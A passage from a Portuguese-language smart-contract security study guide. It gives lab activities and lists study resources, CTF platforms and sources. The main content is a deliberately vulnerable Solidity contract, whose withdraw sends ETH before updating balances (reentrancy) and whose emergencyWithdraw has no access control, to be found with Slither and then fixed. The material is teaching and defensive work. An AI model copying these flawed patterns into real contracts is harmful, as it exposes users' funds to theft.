> **Resultado esperado:** mensagem de sucesso no Ethernaut confirmando que o nível foi completado.

---

> [!example] 🧪 Atividade 2: Analisar Contrato Vulnerável com Slither e Interpretar os Achados
>
> **Objetivo:** Usar Slither para identificar automaticamente vulnerabilidades em um contrato de exemplo e interpretar o relatório gerado.
>
> **Ferramentas:** Python 3.8+, Slither, Solidity (solc), terminal Linux.
>
> **Passo a passo:**
>
> 1. Instalar o Slither:
>    ```bash
>    pip install slither-analyzer
>    # instalar solc para Slither compilar os contratos
>    pip install solc-select
>    solc-select install 0.8.19
>    solc-select use 0.8.19
>    ```
>
> 2. Criar o arquivo `VulnerableBank.sol` com o seguinte contrato vulnerável:
>    ```solidity
>    // SPDX-License-Identifier: MIT
>    pragma solidity ^0.8.0;
>
>    contract VulnerableBank {
>        mapping(address => uint256) public balances;
>
>        function deposit() public payable {
>            balances[msg.sender] += msg.value;
>        }
>
>        // VULNERAVEL: reentrancia (CEI nao seguido)
>        function withdraw(uint256 _amount) public {
>            require(balances[msg.sender] >= _amount, "Saldo insuficiente");
>            (bool sent, ) = msg.sender.call{value: _amount}("");
>            require(sent, "Falha ao enviar");
>            balances[msg.sender] -= _amount; // atualizado DEPOIS do envio: vulneravel
>        }
>
>        // VULNERAVEL: qualquer um pode chamar (sem controle de acesso)
>        function emergencyWithdraw() public {
>            payable(msg.sender).transfer(address(this).balance);
>        }
>
>        receive() external payable {}
>    }
>    ```
>
> 3. Rodar a análise:
>    ```bash
>    slither VulnerableBank.sol
>    ```
>
> 4. Interpretar a saída. O Slither deve reportar ao menos:
>    - **Reentrancy-eth** (Alta): função `withdraw` envia ETH antes de atualizar o estado
>    - **Arbitrary-send-eth** (Alta ou Crítica): `emergencyWithdraw` envia todo o saldo para `msg.sender` sem restrição
>    - Outros achados informativos sobre visibilidade de funções
>
> 5. Corrigir o contrato aplicando o padrão CEI e o `ReentrancyGuard` da OpenZeppelin, depois rodar o Slither novamente para verificar que os achados críticos desapareceram.
>
> **Resultado esperado:** relatório com pelo menos 2 achados de alta severidade na versão vulnerável e zero achados críticos após a correção.

---

> [!example] 🧪 Atividade 3: Investigar uma Transação Suspeita no Etherscan (Sepolia ou Mainnet)
>
> **Objetivo:** Desenvolver a habilidade de ler e interpretar transações on-chain no Etherscan, identificando chamadas a contratos, transferências de tokens e permissões concedidas.
>
> **Ferramentas:** Etherscan (etherscan.io para mainnet, sepolia.etherscan.io para testnet), navegador.
>
> **Passo a passo:**
>
> 1. Acessar [https://etherscan.io/txs](https://etherscan.io/txs) e localizar uma transação recente de um contrato DeFi conhecido (Uniswap, Aave) ou usar o hash de uma transação fornecida pelo professor.
>
> 2. Na página da transação, identificar e anotar:
>    - **From / To**: remetente e destinatário
>    - **Value**: ETH transferido diretamente
>    - **Input Data**: os dados codificados da chamada de função (clicar em "Decode Input Data" se disponível)
>    - **ERC-20 Token Transfers**: quais tokens foram movimentados e em que quantidade
>    - **Logs/Events**: eventos emitidos pelo contrato (Transfer, Approval, Swap, etc.)
>
> 3. Clicar no contrato destinatário e verificar:
>    - O código-fonte está verificado (ícone verde no Etherscan)?
>    - Quais funções `public`/`external` ele expõe?
>    - Há eventos suspeitos nos logs recentes?
>
> 4. Usar a aba **"Internal Txns"** para ver todas as chamadas internas geradas por aquela transação (comum em contratos DeFi que chamam vários outros contratos).
>
> 5. Opcional: buscar o hash da transação do hack do Kelp DAO (abril 2026) ou outro hack documentado publicamente e reconstruir o fluxo de ataque lendo as transações on-chain.
>
> **Resultado esperado:** mapa completo do fluxo de uma transação: quem chamou o quê, quais tokens foram movidos, quais eventos foram emitidos e se há algum padrão que levanta suspeitas.

---

## 📚 Materiais de Estudo

### PDFs

- [[Recursos/Segurança da informação/Blockchain/Blockchain_Bitcoin_e_Criptomoedas_Fernando_Ulrich.pdf|Blockchain, Bitcoin e Criptomoedas - Fernando Ulrich]]
- [[Recursos/Segurança da informação/Blockchain/eradrs2018-trubr.pdf|eradrs2018-trubr.pdf]]
- [Apresentação IRIB sobre Blockchain](https://irib.org.br/files/palestra/blockchain-02.pdf)

### Vídeos

- [📺 How the blockchain will radically transform the economy | Bettina Warburg](https://www.youtube.com/watch?v=RplnSVTzvnU)
- [📺 BLOCKCHAIN NÃO É UM REDE DESCENTRALIZADA! (LIVE)](https://www.youtube.com/watch?v=2rdnGIWy0NI)

### Plataformas de Prática (CTF e Labs)

- [Ethernaut - OpenZeppelin](https://ethernaut.openzeppelin.com/) - CTF oficial de smart contracts, 30+ níveis em testnet
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/) - Desafios avançados de DeFi (flash loans, oracles, governança)
- [CryptoZombies](https://cryptozombies.io/) - Aprender Solidity de forma interativa
- [Cyfrin Updraft](https://updraft.cyfrin.io/) - Curso gratuito de segurança de smart contracts (2025)

### Ferramentas Online

- [Etherscan](https://etherscan.io/) - Explorador da mainnet Ethereum
- [Sepolia Testnet Etherscan](https://sepolia.etherscan.io/) - Explorador da testnet Sepolia (ETH grátis)
- [Remix IDE](https://remix.ethereum.org/) - IDE online para Solidity, sem instalação
- [Revoke.cash](https://revoke.cash/) - Auditar e revogar permissões ERC-20/NFT
- [Tenderly](https://tenderly.co/) - Simular e debugar transações Ethereum

---

> [!note] 📚 Fontes (2026)
>
> **Vulnerabilidades e Ataques:**
> - [OWASP Smart Contract Top 10: 2026 (dev.to)](https://dev.to/ohmygod/the-owasp-smart-contract-top-10-2026-every-vulnerability-explained-with-real-exploits-i30)
> - [OWASP Foundation - Smart Contract Top 10](https://owasp.org/www-project-smart-contract-top-10/)
> - [Top 10 Smart Contract Vulnerabilities 2025 - Hacken](https://hacken.io/discover/smart-contract-vulnerabilities/)
> - [Smart Contract Security Risks 2026 - Gate.com](https://web3.gate.com/crypto-wiki/article/what-are-the-most-critical-crypto-security-risks-in-smart-contracts-and-exchange-hacks-in-2026-20260123)
> - [Smart Contract Security Risks and Audits Statistics 2026 - CoinLaw](https://coinlaw.io/smart-contract-security-risks-and-audits-statistics/)
>
> **Hacks e Incidentes Reais:**
> - [DeFi Hacks 2026: Bridge Exploits Dominate - Phemex](https://phemex.com/blogs/defi-hacks-2026-bridge-exploits-explained)
> - [Biggest DeFi Hacks and Exploits of 2026 - CCN](https://www.ccn.com/education/crypto/defi-hacks-exploits-causes-crypto-stolen-2026/)
> - [Crypto Theft \$3.4 Billion in 2025 - Chainalysis](https://www.chainalysis.com/blog/crypto-hacking-stolen-funds-2026/)
> - [Top 5 Crypto Hacks 2025 - Global Ledger](https://blog.globalledger.io/research-investigations/top-5-crypto-hacks)
>
> **Ataque de 51%:**
> - [Monero 51% Attack August 2025 - Halborn](https://www.halborn.com/blog/post/explained-the-monero-51-percent-attack-august-2025)
> - [51% Attack Vulnerability Nascent Blockchains - Springer (2026)](https://link.springer.com/article/10.1007/s40747-026-02256-w)
>
> **Ferramentas de Auditoria:**
> - [Smart Contract Security: Slither to Foundry - Medium](https://medium.com/@anandi.sheladiya/a-complete-guide-to-smart-contract-security-from-slither-to-foundry-639b0a463d14)
> - [Automated Smart Contract Security Tools - BugBlow](https://bugblow.com/blog/automated-smart-contract-security-tools-slither-mythril-echidna)
> - [Introduction to Smart Contract Auditing with Foundry - Chainstack](https://docs.chainstack.com/docs/introduction-to-smart-contract-manual-auditing-with-foundry-and-slither)
>
> **Phishing e Wallet Drainers:**
> - [Wallet Drainers: Fake Revoke Sites - Blockaid](https://blockaid.io/blog/how-wallet-drainers-use-fake-revoke-sites-and-twitter-phishing-to-exploit-victims)
> - [Web3 Security Risks 2026 - Kerberus](https://www.kerberus.com/learn/web3-security-threats/)
> - [MetaMask Crypto Security Report April 2026](https://metamask.io/news/crypto-security-report-2026)
>
> **Reentrância:**
> - [Reentrancy Attack Solidity - Cyfrin](https://www.cyfrin.io/blog/what-is-a-reentrancy-attack-solidity-smart-contracts)
> - [Complete Reentrancy Hands-on Guide - Ackee Blockchain](https://ackee.xyz/blog/complete-reentrancy-hands-on-guide/)

---

> [!info] Fonte Original
> A maior parte do conteúdo introdutório foi adaptado de: [101blockchains.com/pt/apresentacao-da-blockchain](https://101blockchains.com/pt/apresentacao-da-blockchain/)
